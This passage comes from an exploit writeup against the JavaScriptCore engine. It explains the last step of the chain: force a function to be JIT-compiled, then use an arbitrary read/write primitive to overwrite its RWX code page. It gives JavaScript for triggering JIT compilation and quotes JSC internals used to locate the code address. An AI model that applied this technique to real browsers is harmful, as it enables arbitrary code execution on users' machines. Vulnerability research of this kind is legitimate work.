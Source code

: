 ### Arbitrary Code Execution

Now that we are capable of reading and writing values at arbitrary locations, the last step of the exploit is to get code execution.

#### Exploit Overview

This can be done fairly easily, since JSC uses RWX pages to store JIT compiled code. To get code execution we would then just have to force a JS function to be JIT compiled and then change its code using our write primitive.

The following snippet of code's purpose is to JIT compile a function, which has already been done at the beginning of this writeup.

```javascript
function get_jit_compiled_function() {
    function target(num) {
        num += 1.234;
        for (var i = 0; i < 200; i++)
            num /= 0.1;
        num = num % 3;
        return num;
    }

    for (var i = 0; i < 100000; i++) {
        target(10.42);
    }

    return target;
}

var jit_compiled_func = get_jit_compiled_function();
```

`jit_compiled_func` now contains a JIT compiled function that we can modify.

#### Finding the Code Address

The next step is to find the actual address of the JIT compiled code. To do so, an interesting starting point is `JSC::JITCode::execute` which is called when a JIT compiled function is executed. This function has the following source code:

```cpp
ALWAYS_INLINE JSValue JITCode::execute(VM* vm, ProtoCallFrame* protoCallFrame)
{
    auto scope = DECLARE_THROW_SCOPE(*vm);
    void* entryAddress;
    entryAddress = addressForCall(MustCheckArity).executableAddress();
    JSValue result = JSValue::decode(vmEntryToJavaScript(entryAddress, vm, protoCallFrame));
    return scope.exception() ? jsNull() : result;
}
```

This function uses `vmEntryToJavaScript` to execute the code located at `entryAddress`. `entryAddress` is retrieved using `addressForCall` and `executableAddress`. The latter, which implementation is foud in `MacroAssemblerCodeRef.h`, is not particularily interesting:
